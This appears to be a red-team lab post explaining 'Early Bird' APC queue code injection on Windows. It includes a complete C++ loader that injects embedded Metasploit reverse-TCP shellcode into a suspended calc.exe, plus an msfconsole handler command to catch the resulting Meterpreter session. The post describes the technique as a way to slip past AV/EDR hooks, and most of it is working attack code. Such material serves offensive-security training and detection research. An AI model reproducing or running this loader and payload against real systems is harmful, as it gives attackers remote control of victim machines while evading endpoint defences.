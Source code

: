 ```yaml
---
layout: post
title: "early bird apc queue code injection"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /early-bird-apc-queue-code-injection/
---
```


---
layout: post
title: "early bird apc queue code injection"
date: 2024-06-18
categories: code-injection-process-injection
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /early-bird-apc-queue-code-injection/
---

# Early Bird APC Queue Code Injection

This short lab is related to a different version of the APC queue code injection technique I tinkered with here:

{% content-ref url="apc-queue-code-injection.md" %}
[apc-queue-code-injection.md](apc-queue-code-injection.md)
{% endcontent-ref %}

## Overview

High level overview of the technique:

1. A malicious program creates a new legitimate process (say calc.exe) in a suspended state
2. Memory for shellcode is allocated in the newly created process's memory space
3. APC routine pointing to the shellcode is declared
4. Shellcode is written to the previously allocated memory
5. APC is queued to the main thread (currently in `suspended` state)
6. Thread is resumed and the shellcode is executed
7. Meterpreter session established

One of the main advantages of this technique over the regular APC Queue code injection, is that in Early Bird technique, the malicious behaviour takes place early on in the process initialization phase, increasing the likelihood of going under the radar of some AV/EDR hooks.

## Execution

Below image (top) shows that I've hit the breakpoint on line 19, meaning that a new `calc.exe` process has been created in a `suspended` state (defined in line 15).

If we check the newly started `calc.exe` in the Process Hacker, we can confirm that the main thread is indeed `suspended` (bottom):

![](<../../.gitbook/assets/Annotation 2019-05-27 140139.png>)

After line 19 is executed, we get the address of the newly allocated memory. This is where the shellcode will be written to:

```cpp
LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```

![](<../../.gitbook/assets/Annotation 2019-05-27 140326.png>)

Below shows how the shellcode gets written to memory address `0000023b82480000` of the `calc.exe` with:

```cpp
WriteProcessMemory(victimProcess, shellAddress, buf, shellSize, NULL);
```

![](../../.gitbook/assets/writing-shellcode.gif)

Before continuing, let's fire up a multi handler on the attacking system so we can catch the meterpreter session:

{% code title="attacker@kali" %}
```csharp
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/x64/meterpreter/reverse_tcp; exploit"
```
{% endcode %}

Back to executing the malicious code - once the shellcode is written into the process memory, the APC is queued to the thread which is then immediately resumed. Resuming the thread in turn executes the shellcode which results in a meterpreter session:

![](../../.gitbook/assets/apc-meterpreter.gif)

## Code

{% code title="earlybird-apc.cpp" %}
```cpp
#include "pch.h"
#include <Windows.h>

int main()
{
	unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";
	SIZE_T shellSize = sizeof(buf);
	STARTUPINFOA si = {0};
	PROCESS_INFORMATION pi = {0};

	CreateProcessA("C:\\Windows\\System32\\calc.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
	HANDLE victimProcess = pi.hProcess;
	HANDLE threadHandle = pi.hThread;
	
	LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
	
	WriteProcessMemory(victimProcess, shellAddress, buf, shellSize, NULL);
	QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);	
	ResumeThread(threadHandle);

	return 0;
}
```
{% endcode %}

## References

{% embed url="https://www.cyberbit.com/blog/endpoint-security/new-early-bird-code-injection-technique-discovered/" %}

{% embed url="https://www.youtube.com/watch?time_continue=29&v=_sI76NLPMjI" %}
@spotheplanet
